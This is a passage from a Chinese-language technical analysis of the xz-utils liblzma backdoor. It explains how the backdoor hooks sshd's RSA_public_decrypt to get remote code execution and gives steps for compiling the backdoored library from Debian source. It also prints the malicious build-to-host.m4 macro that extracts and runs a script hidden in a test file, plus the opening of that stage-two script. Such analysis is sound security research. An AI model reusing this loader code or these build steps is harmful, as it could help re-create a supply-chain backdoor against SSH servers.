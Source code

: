 2、利用glibc的IFUNC特性，获得在sshd进程加载liblzma.so库时执行后门代码的能力。通过后门代码Hook sshd进程中RSA_public_decrypt()函数的GOT表条目。  
  
3、攻击者通过SSH公钥登录方式，使用特定的RSA私钥连接目标机器进行身份验证。sshd进程会通过RSA_public_decrypt()函数对攻击者发送的RSA私钥进行解密，该RSA私钥中包含攻击者想要执行的payload，由此可知，本次后门可造成远程代码执行。  
  
  
01  
  
编译恶意的liblzma.so文件  
  
由于阶段三中执行的good-large_compressed.sh脚本会检查源代码目录下是否存在/debian/rules文件，可以选择debian的xz-utils源码进行编译，或者在上游xz-utils源码创建这样一个文件后，就能成功编译包含后门代码的liblzma.so库。  
  
debian的xz-utils v5.6.0-0.2的链接如下所示。https://salsa.debian.org/debian/xz-utils/-/tree/debian/5.6.0-0.2?ref_type=tags  
  
**阶段一**  
  
在构建xz-utils的过程中，通过执行源代码根目录下的configure脚本生成Makefile文件时，会执行build-to-host.m4文件中的宏。此文件中的宏代码用于对./tests/files/bad-3-corrupt_lzma2.xz文件进行修复，解压，然后获得用于阶段二执行的脚本代码（命名为bad-3-corrupt_lzma2.sh）并执行。build-to-host.m4文件中的关键代码如下所示。  
```
// ./m4/build-to-host.m4
// 找到包含“####Hello####”内容的文件的名称
gl_am_configmake=`grep -aErls "#{4}[[:alnum:]]{5}#{4}$" $srcdir/ 2>/dev/null`
❯ grep -aErls "#{4}[[:alnum:]]{5}#{4}$" . 2>/dev/null
./tests/files/bad-3-corrupt_lzma2.xz

// 获取xz程序的名字
gl_[$1]_prefix=`echo $gl_am_configmake | sed "s/.*\.//g"`
❯ echo ./tests/files/bad-3-corrupt_lzma2.xz | sed "s/.*\.//g"
xz

// 修复bad-3-corrupt_lzma2.xz文件，并对其解压，获得bad-3-corrupt_lzma2.sh脚本文件，然后执行它
gl_path_map='tr "\t \-_" " \t_\-"'
gl_[$1]_config='sed \"r\n\" $gl_am_configmake | eval $gl_path_map | $gl_[$1]_prefix -d 2>/dev/null'
sed "r\n" ./tests/files/bad-3-corrupt_lzma2.xz | eval 'tr "\t \-_" " \t_\-"' | xz -d 2>/dev/null
```  
  
对bad-3-corrupt_lzma2.xz文件的修复是通过tr "\t \-_" " \t_\-"命令实现的，其过程如下所示：  
```
0x09(\t) --> 0x20(空格)
0x20(空格) --> 0x09(\t)
0x2d(-) --> 0x5f(_)
0x5f(_) --> 0x2d(-)
```  
  
通过对build-to-host.m4文件中的宏代码的分析，可以手动修复bad-3-corrupt_lzma2.xz文件，并获得阶段二执行的bad-3-corrupt_lzma2.sh脚本。  
  
**阶段二**  
  
阶段二执行的bad-3-corrupt_lzma2.sh脚本的内容如下所示。  
```
# bad-3-corrupt_lzma2.sh, xz-5.6.0
####Hello####
#†ùZ÷.hj¼
eval `grep ^srcdir= config.status`
if test -f ../../config.status;then
eval `grep ^srcdir= ../../config.status`
srcdir="../../$srcdir"
fi
```
